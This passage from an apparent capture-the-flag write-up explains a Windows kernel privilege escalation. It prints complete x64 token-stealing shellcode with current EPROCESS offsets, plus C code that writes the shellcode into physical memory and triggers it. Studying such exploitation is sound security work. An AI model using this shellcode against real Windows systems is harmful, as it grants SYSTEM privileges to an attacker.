 Here, our exploit has to happen entirely in kernelspace and be fully automated. Luckily, [this blog post](https://connormcgarr.github.io/x64-Kernel-Shellcode-Revisited-and-SMEP-Bypass/) had some great pointers on token-stealing-shellcode. As a pointer to the current task is stored in `gs:[0x188]`, and the process with ID 4 always belongs to SYSTEM, we can begin at our own task and walk until we find a PID field of 4.

### Offsets
However, there was an issue which meant I couldn't copy the shellcode verbatim. The layout of Windows Kernel structures changes frequently, and my kernel was several months more recent than the one in the blog, making the offsets inapplicable.
At this point, I spent several hours, using several cables, adapters and laptops to try and establish a WinDbg kernel debugging connection in order for me to inspect the structure layout.

However, whatever I did, I wasn't able to get a connection working, and resigned myself to reverse engineering the kernel binary itself to discover offsets. At which point, I loaded `ntoskrnl.exe` into Binary Ninja, waited for it to analyse - then suddenly noticed a PDB for the kernel containing all structures and offsets being downloaded from Microsoft's PDB server and imported into Binary Ninja's type system.

`<surprised Pikachu face>`

The writeup linked earlier will do a much better job than I will of explaining the logic of the shellcode, but, armed with my new offsets, my final shellcode was as follows:

```x86asm
mov rax, qword ptr gs:[0x188]
mov rax, [rax + 0xb8]
mov rbx, rax

__loop:
mov rbx, [rbx + 0x448]
sub rbx, 0x448
mov rcx, [rbx + 0x440]
cmp rcx, 4
jnz __loop

mov rcx, [rbx + 0x4b8]
and cl, 0xf0
mov [rax + 0x4b8], rcx
xor rax, rax
ret
```

## Solving
We're now ready to steal the token and get the flag!
```c
WritePhysmem(device, i, sizeof(shellcode), shellcode);
HINSTANCE hNtDLL = LoadLibraryA("ntdll.dll");
typedef  NTSTATUS(NTAPI* _NtQuerySystemInformation)(
	ULONG SystemInformationClass,
	PVOID SystemInformation,
	ULONG SystemInformationLength,
	PULONG ReturnLength
);
_NtQuerySystemInformation NtQuerySystemInformation = GetProcAddress(hNtDLL, "NtQuerySystemInformation"); NtQuerySystemInformation(0, NULL, 0, NULL);
```
## Closing Thoughts
It was a lot of fun to have another go at Windows Kernel exploitation. The main difficulty I had was finding resources on Windows physical memory layout - I would have had significantly more difficulty if the scan had taken too long and I needed to locate CR3 (or some other way to map virtual to physical addresses) in memory.
